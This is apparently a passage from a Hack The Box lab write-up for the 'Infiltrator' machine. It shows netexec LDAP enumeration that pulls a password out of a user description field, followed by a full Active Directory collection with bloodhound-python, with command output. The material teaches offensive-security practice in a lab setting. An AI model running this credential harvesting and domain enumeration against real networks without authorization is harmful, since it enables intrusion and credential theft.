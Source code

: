 ```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ netexec ldap infiltrator.htb -u 'l.clark' -p 'WAT?watismypass!' -M get-desc-users
SMB         10.129.223.154  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:infiltrator.htb) (signing:True) (SMBv1:False)
LDAP        10.129.223.154  389    DC01             [+] infiltrator.htb\l.clark:WAT?watismypass! 
GET-DESC... 10.129.223.154  389    DC01             [+] Found following users: 
GET-DESC... 10.129.223.154  389    DC01             User: Administrator description: Built-in account for administering the computer/domain
GET-DESC... 10.129.223.154  389    DC01             User: Guest description: Built-in account for guest access to the computer/domain
GET-DESC... 10.129.223.154  389    DC01             User: krbtgt description: Key Distribution Center Service Account
GET-DESC... 10.129.223.154  389    DC01             User: K.turner description: MessengerApp@Pass!
GET-DESC... 10.129.223.154  389    DC01             User: infiltrator_svc$ description: dc01.infiltrator.htb
```

| Usernames | Password           |
| --------- | ------------------ |
| K.turner  | MessengerApp@Pass! |

The password contained a hint for a potential `messenger application` and we saved this information for later.

## Active Directory Enumeration

Now it was time to move a step further into the `Active Directory`. Therefore we collected a `dump` of it using `bloodhound-python`.

```c
┌──(kali㉿kali)-[/media/…/HTB/Machines/Infiltrator/files]
└─$ bloodhound-python -u 'l.clark' -p 'WAT?watismypass!' -d 'infiltrator.htb' -gc 'dc01.infiltrator.htb' -ns 10.129.223.154 -c all --zip
INFO: Found AD domain: infiltrator.htb
INFO: Getting TGT for user
INFO: Connecting to LDAP server: dc01.infiltrator.htb
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: dc01.infiltrator.htb
INFO: Found 14 users
INFO: Found 58 groups
INFO: Found 2 gpos
INFO: Found 2 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: dc01.infiltrator.htb
INFO: Done in 00M 07S
INFO: Compressing output into 20240831221814_bloodhound.zip
```
